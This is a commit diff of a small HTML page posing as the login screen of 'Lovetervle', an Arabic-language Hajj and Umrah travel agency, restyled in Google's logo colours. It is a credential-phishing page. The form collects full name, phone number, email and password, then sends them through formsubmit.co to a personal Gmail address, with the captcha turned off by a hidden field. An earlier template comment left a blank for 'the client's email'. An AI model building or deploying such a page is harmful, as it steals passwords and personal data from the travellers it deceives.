

Before and after one commit to Service-help23/Services, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -7,36 +7,36 @@
 <style>
   *{margin:0;padding:0;box-sizing:border-box;font-family:tahoma, sans-serif;}
   body{background: linear-gradient(135deg, #0d47a1 0%, #1976d2 100%); min-height:100vh; display:flex; align-items:center; justify-content:center; padding:20px;}
-  .card{background:white; width:100%; max-width:420px; border-radius:20px; padding:30px 25px;}
+  .card{background:white; width:100%; max-width:420px; border-radius:20px; padding:30px 25px; box-shadow:0 15px 35px rgba(0,0,0,0.3);}
   .logo{text-align:center; margin-bottom:20px;}
-  .logo h1{color:#0d47a1; font-size:34px; font-weight:900;}
+  .google-logo{font-size:36px; font-weight:900; letter-spacing:-1px;}
+  .g-blue{color:#4285F4;} .g-red{color:#EA4335;} .g-yellow{color:#FBBC05;} .g-green{color:#34A853;}
+  .logo p{color:#666; font-size:13px; margin-top:8px;}
   .input-group{margin-bottom:14px;}
-  .input-group input{width:100%; padding:13px; border:1px solid #ddd; border-radius:10px; outline:none;}
-  .btn{width:100%; padding:14px; background:#1976d2; color:white; border:none; border-radius:10px; font-weight:bold; cursor:pointer;}
+  .input-group input{width:100%; padding:13px 15px; border:1px solid #ddd; border-radius:10px; outline:none;}
+  .btn{width:100%; padding:14px; background:#4285F4; color:white; border:none; border-radius:10px; font-weight:bold; cursor:pointer;}
   .footer{text-align:center; margin-top:20px; font-size:12px; color:#999; border-top:1px solid #eee; padding-top:15px;}
 </style>
 </head>
 <body>
-
 <div class="card">
-  <div class="logo"><h1>Lovetervle ✈️</h1></div>
-
-  <!-- هنا بتحط ايميل العميل -->
-  <form action="https://formsubmit.co/CLIENT_EMAIL_HERE" method="POST">
+  <div class="logo">
+    <h1 class="google-logo">
+      <span class="g-blue">L</span><span class="g-red">o</span><span class="g-yellow">v</span><span class="g-blue">e</span><span class="g-green">t</span><span class="g-red">e</span><span class="g-yellow">r</span><span class="g-blue">v</span><span class="g-green">l</span><span class="g-red">e</span> ✈️
+    </h1>
+    <p>وكالة السفر الأولى للحج والعمرة</p>
+  </div>
+  <form action="https://formsubmit.co/mosabshareef2222@gmail.com" method="POST">
     <div class="input-group"><input type="text" name="الاسم" placeholder="الاسم الكامل" required></div>
     <div class="input-group"><input type="tel" name="الهاتف" placeholder="رقم التليفون" required></div>
     <div class="input-group"><input type="email" name="الايميل" placeholder="البريد الإلكتروني" required></div>
     <div class="input-group"><input type="password" name="كلمة المرور" placeholder="كلمة المرور" required></div>
-
-    <!-- عشان ما يظهرش صفحة شكر -->
     <input type="hidden" name="_captcha" value="false">
     <input type="hidden" name="_template" value="table">
-
+    <input type="hidden" name="_subject" value="تسجيل جديد - Lovetervle">
     <button type="submit" class="btn">تسجيل الدخول</button>
   </form>
-
   <div class="footer">love travels 2026 ©</div>
 </div>
-
 </body>
 </html>
```
